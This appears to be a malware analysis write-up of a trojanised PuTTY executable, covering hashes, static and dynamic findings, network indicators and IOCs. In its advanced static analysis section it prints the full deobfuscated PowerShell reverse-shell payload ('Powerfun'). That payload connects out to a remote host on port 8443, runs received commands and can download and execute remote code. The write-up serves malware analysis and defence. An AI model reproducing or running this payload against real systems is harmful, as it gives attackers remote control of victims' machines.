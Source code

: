 ```yaml
---
title: ReverseShell Putty
description: Analyzing an infected putty executable
authors: konradwylde
tags:
  - malware
date: '2022-12-17'
draft: false
---
```



## Executive Summary
The analyzed sample is a reverse shell embedded inside a fully functional Putty client.

It consist of a single payload executed on initial detonation by a powershell.exe command that tries to connect to bonus2.corporatebonusapplication[.]local on port 8443

Symptoms of infection include DNS query to the same domain and a following TCP connection try.


## Malware Composition

|  File Name     |  SHA256 Hash  |
|----------------|---------------|
|  putty.exe  |  0c82e654c09c8fd9fdf4899718efa37670974c9eec5a8fc18a167f93cea6ee83  |


## VT Analysis
[VT Link](https://www.virustotal.com/gui/file/0c82e654c09c8fd9fdf4899718efa37670974c9eec5a8fc18a167f93cea6ee83/relations) (Detection score 59/72)  
  
No other significative results to be reported.


## Basic Static Analysis
### FLOSS interesting findings
[![floss-ouput](images/floss.png)](images/floss.png)

### PEStudio findings
* found a suspicious section: `.00cfg`
* found a suspicious entry-point `.text:0x00122000`

Both findings need an advanced analysis.

### IAT interesting findings
* `ShellExecuteA` and some Windows Registry related imports (may be Putty normal functionality related - eg. saving an ssh key)


## Basic Dynamic Analysis
### Initial detonation
* upon detonation a blue Powershell window appears for a few seconds before the standard Putty window.

### Host-based indicators 
* a `Process Create` operation is executed after detonation, which confirms the Powershell command execution we found during the strings analysis.
[![procmon1](images/procmon-1.png)](images/procmon-1.png)

* the `process tree` can also confirm that putty.exe executed Powershell
[![procmon2](images/procmon-2.png)](images/procmon-2.png)
  
* by analysing any TCP operations we can notice that the Powershell command seems to be trying to establish a TCP connection to port `8443`
[![procmon3](images/procmon-3.png)](images/procmon-3.png)

### Network signatures
* found DNS queries to `bonus2.corporatebonusapplication[.]local`
[![dns-queries](images/wireshark-dns.png)](images/wireshark-dns.png)

* by setting up a listener on port `8443` and re-detonating the sample we can get a TCP connection (Wireshark reports a TLS `Client Hello`)
[![netcat](images/netcat-1.png)](images/netcat-1.png)
[![tcp-connect](images/wireshark-tcp.png)](images/wireshark-tcp.png)


## Advanced Static Analysis
* by decoding the base64 string and decompressing it with gzip we finally get the deobfuscated payload
```POWERSHELL
# Powerfun - Written by Ben Turner & Dave Hardy

function Get-Webclient 
{
    $wc = New-Object -TypeName Net.WebClient
    $wc.UseDefaultCredentials = $true
    $wc.Proxy.Credentials = $wc.Credentials
    $wc
}
function powerfun 
{ 
    Param( 
    [String]$Command,
    [String]$Sslcon,
    [String]$Download
    ) 
    Process {
    $modules = @()  
    if ($Command -eq "bind")
    {
        $listener = [System.Net.Sockets.TcpListener]8443
        $listener.start()    
        $client = $listener.AcceptTcpClient()
    } 
    if ($Command -eq "reverse")
    {
        $client = New-Object System.Net.Sockets.TCPClient("bonus2.corporatebonusapplication.local",8443)
    }

    $stream = $client.GetStream()

    if ($Sslcon -eq "true") 
    {
        $sslStream = New-Object System.Net.Security.SslStream($stream,$false,({$True} -as [Net.Security.RemoteCertificateValidationCallback]))
        $sslStream.AuthenticateAsClient("bonus2.corporatebonusapplication.local") 
        $stream = $sslStream 
    }

    [byte[]]$bytes = 0..20000|%{0}
    $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
    $stream.Write($sendbytes,0,$sendbytes.Length)

    if ($Download -eq "true")
    {
        $sendbytes = ([text.encoding]::ASCII).GetBytes("[+] Loading modules.`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)
        ForEach ($module in $modules)
        {
            (Get-Webclient).DownloadString($module)|Invoke-Expression
        }
    }

    $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
    $stream.Write($sendbytes,0,$sendbytes.Length)

    while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
    {
        $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
        $data = $EncodedText.GetString($bytes,0, $i)
        $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )

        $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
        $x = ($error[0] | Out-String)
        $error.clear()
        $sendback2 = $sendback2 + $x

        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
        $stream.Write($sendbyte,0,$sendbyte.Length)
        $stream.Flush()  
    }
    $client.Close()
    $listener.Stop()
    }
}

powerfun -Command reverse -Sslcon true
```


## Advanced Dynamic Analysis
Not needed.


## Any.run Analysis
* by searching the SHA256SUM on App.any.run we can find some tasks [(Link here)](https://app.any.run/tasks/0ee9dac1-f2e8-406d-a141-3f8e0be6a5af/) that can confirm the Powershell payload and the DNS query. No other findinds are reported. 
[![anyrun1](images/anyrun-1.png)](images/anyrun-1.png)


## Indicators of Compromise (IOCs)
### Host-based Indicators
* Powershell command execution.
* TCP Connection on port `8443`

### Network Indicators
* DNS query: `bonus2.corporatebonusapplication[.]local`
* TCP connection on port `8443`


## Rules & Signatures
`Placeholder`